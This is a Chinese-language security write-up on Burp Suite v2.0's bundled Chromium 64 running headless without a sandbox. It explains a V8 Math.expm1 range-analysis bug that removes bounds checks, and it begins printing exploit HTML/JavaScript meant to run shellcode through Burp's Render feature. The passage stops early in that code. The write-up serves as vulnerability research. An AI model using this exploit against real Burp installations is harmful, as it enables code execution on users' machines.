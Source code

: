 browsercore32.exe 进程运行参数如下：

```plain
// Chromium 主进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --port=53070 --pid=13208 --dpi-awareness=system-aware --crash-dump-dir=C:\Users\user\AppData\Local\JxBrowser --lang=zh-CN --no-sandbox --disable-xss-auditor --headless --disable-gpu --log-level=2 --proxy-server="socks://127.0.0.1:0" --disable-bundled-ppapi-flash --disable-plugins-discovery --disable-default-apps --disable-extensions --disable-prerender-local-predictor --disable-save-password-bubble --disable-sync --disk-cache-size=0 --incognito --media-cache-size=0 --no-events --disable-settings-window

// Renderer 进程
C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --type=renderer --log-level=2 --no-sandbox --disable-features=LoadingWithMojo,browser-side-navigation --disable-databases --disable-gpu-compositing --service-pipe-token=C06434E20AA8C9230D15FCDFE9C96993 --lang=zh-CN --crash-dump-dir="C:\Users\user\AppData\Local\JxBrowser" --enable-pinch --device-scale-factor=1 --num-raster-threads=1 --enable-gpu-async-worker-context --disable-accelerated-video-decode --service-request-channel-token=C06434E20AA8C9230D15FCDFE9C96993 --renderer-client-id=2 --mojo-platform-channel-handle=2564 /prefetch:1
```

从进程运行参数分析得知，Chromium 进程以 headless 模式运行、关闭了沙箱功能、随机监听一个端口（用途未知）。

## 三、漏洞利用

Chromium 组件的历史版本几乎都存在着 1Day 漏洞风险，特别是在客户端软件一般不会维护升级 Chromium 版本，且关闭沙箱功能，在没有沙箱防护的情况下漏洞可以无限制利用。

Burp Suite v2.0 内置的 Chromium 版本为 64.0.3282.24，该低版本 Chromium 受到多个历史漏洞影响，可以通过 v8 引擎漏洞执行 shellcode 从而获得 PC 权限。

以 Render 功能演示，利用 v8 漏洞触发 shellcode 打开计算器（此处感谢 Sakura 提供漏洞利用代码）

这个漏洞没有公开的 CVE ID，但其详情可以在[这里](https://bugs.chromium.org/p/chromium/issues/detail?id=880207)找到。该漏洞的 Root Cause 是在进行`Math.expm1`的范围分析时，推断出的类型是`Union(PlainNumber, NaN)`，忽略了`Math.expm1(-0)`会返回`-0`的情况，从而导致范围分析错误，导致 JIT 优化时，错误的将边界检查 CheckBounds 移除，造成了 OOB 漏洞。

```plain
<html>
<head></head>
</body>
<script>
function pwn() {
    var f64Arr = new Float64Array(1);
    var u32Arr = new Uint32Array(f64Arr.buffer);

    function f2u(f) {
        f64Arr[0] = f;
        return u32Arr;
    }

    function u2f(h, l)
    {
        u32Arr[0] = l;
        u32Arr[1] = h;
        return f64Arr[0];
    }

    function hex(i) {
        return "0x" + i.toString(16).padStart(8, "0");
    }

    function log(str) {
        console.log(str);
        document.body.innerText += str + '\n';
    }

    var big_arr = [1.1, 1.2];
```